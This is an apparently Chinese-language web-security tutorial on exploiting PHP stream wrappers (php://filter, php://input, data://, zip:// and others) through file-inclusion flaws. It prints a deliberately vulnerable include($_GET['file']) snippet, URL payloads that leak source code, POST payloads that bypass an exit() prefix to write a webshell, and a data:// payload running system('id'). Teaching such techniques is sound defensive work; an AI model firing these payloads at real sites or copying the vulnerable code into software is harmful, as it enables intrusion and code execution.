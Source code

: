 # 伪协议

## 支持的协议和封装协议

官方文档中可以看到PHP 带有很多内置 URL 风格的封装协议，例如 `php://`，`file://`等等，而其中也存在一些攻击者可以利用的地方  

<a-alert type="success" message="" description="官方文档：https://www.php.net/manual/zh/wrappers.file.php" showIcon>
</a-alert>
<br/>

![image-20220518110413109](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220518110413109.png)

## php://

PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符， 内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。

![image-20220525090905760](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525090905760.png)

![image-20220525091008645](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525091008645.png)

### php://input

当 allow_url_include 配置在 php.ini 文件中为 `On`时，可以通过使用 `php://input` 在POST数据中传入执行的PHP代码来达到命令执行

![image-20220525091416553](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525091416553.png)

这里使用文件包含代码来做例子

```php
<?php
include($_GET["file"]);
?>
```

![image-20220525091610668](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525091610668.png)

### php://filter

当存在文件包含漏洞时，可以使用 `php://filter` 读取 PHP源码

```php
index.php?file=php://filter/read=convert.base64-encode/resource=index.php
```

![image-20220525093334626](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525093334626.png)

这里使用的过滤器为 `convert.base64-encode`，读取到的响应 `base64` 解码后就是源码文件

![image-20220525093521312](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525093521312.png)

如果存在WAF或者代码过滤 base64 等字符的情况下，除去这个常用的过滤器，还存在其他的方法来获取数据

```
/index.php?file=php://filter/read=string.rot13/resource=index.php 
```

![image-20220525101142364](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525101142364.png)

其中还有一个在PHP文档中提到较少的过滤器 `iconv转换过滤器(convert.iconv.*)`，通过命令可以看到可以使用的方法

![image-20220525101342348](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525101342348.png)

```
/index.php?file=php://filter/read=convert.iconv.ISO_8859-7:2003/resource=index.php
```

![image-20220525101430283](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525101430283.png)

当部分代码中含有 `死亡 exit`时，使用 `php://filter` 也可以继续绕过，达到写入Webshell的目的，例如下面的PHP代码

```php
<?php
$content = '<?php exit; ?>';
$content .= $_POST['content'];
file_put_contents($_POST['filename'], $content);
?>
```

当我们想写入PHP代码时

![image-20220525110938859](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525110938859.png)

![image-20220525110947255](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525110947255.png)

在exit的影响下，写入的PHP代码无法执行，而这时通过 `php://filter` 利用特殊的转换器就可以绕过 exit 写入想要执行的PHP代码

![image-20220525112502432](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525112502432.png)

如上图，当存在 Base64索引中 不包含的字符中，base64会跳过不识别的字符拼接可识别字符再进行解码，也就是说 `<?php exit; ?>` 传入 base64的实际只有 `phpexit`, 而 base64算法4byte 为一组进行运算，我们通过传入任意一个字母拼接就可以使其解码，再通过 base64的过滤器就可以绕过 `exit`写入 Webshell

```
content=QPD9waHAgcGhwaW5mbygpOz8%2b&filename=php://filter/write=convert.base64-decode/resource=phpinfo.php
```

![image-20220525114107874](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525114107874.png)

![image-20220525114131702](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525114131702.png)

也可以利用 `string.strip_tags` 去除整个 `<?php exit; ?>`，来写入

```
content=PD9waHAgcGhwaW5mbygpOz8%2b&filename=php://filter/write=string.strip_tags|convert.base64-decode/resource=phpinfo.php
```

但这个过滤器在 `PHP 7.3.0` 版本废弃了，后续版本使用可能会导致写入失败

![image-20220525114959794](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525114959794.png)

除去这些常用的，还有很多方法可以使用

```
# rot13过滤器
content=<?cuc cucvasb();?>&filename=php://filter/write=string.rot13/resource=phpinfo.php
```

![image-20220525115422272](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525115422272.png)

```
#UCS-2 转换
content=?<hp phpipfn(o;)>?&filename=php://filter/write=convert.iconv.UCS-2LE.UCS-2BE/resource=phpinfo.php
```

![image-20220525115617995](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525115617995.png)

## data://

文件包含源码

```php
<?php
include($_GET["file"]);
?>
```

利用 `data://` 执行 php代码

![image-20220525121021882](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525121021882.png)

也可以通过编码的方式绕过一些过滤

```php
/index.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOz8%2
```

![image-20220525121519399](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525121519399.png)

## http://

当配置选项 `allow_url_fopen`与`allow_url_include` 均为On时，通过 `http:// 或 https://` 协议可以远程包含文件或包含本地文件

```
# shell.php
<?php system("id");?>
```

![image-20220525122614858](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525122614858.png)

## file://

这个协议常常用于读取读取文件，当知道文件路径时，可以通过该协议读取文件获取敏感数据

![image-20220525171226018](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525171226018.png)

## zip://  &  bzip2://  &  zlib://

`zip:// & bzip2:// & zlib://` 均属于压缩流，可以访问压缩文件中的子文件。当存在压缩包上传的情况时，我们可以通过此协议访问 压缩包中的内部文件

![image-20220525172201302](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525172201302.png)

上图将 `phpinfo.txt` 打包为 `phpinfo.zip`

```
/index.php?file=zip:///Users/peiqi/Sites/peiqi/phpinfo.zip%23phpinfo.txt 
```

![image-20220525172250386](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525172250386.png)

压缩包后缀为 `gz`时

```
/index.php?file=compress.zlib:///Users/peiqi/Sites/peiqi/phpinfo.gz 
```

![image-20220525172701926](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525172701926.png)

压缩包后缀为`bz2`时

```
/index.php?file=compress.bzip2:///Users/peiqi/Sites/peiqi/phpinfo.bz2
```

 ![image-20220525172846066](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/image-20220525172846066.png)
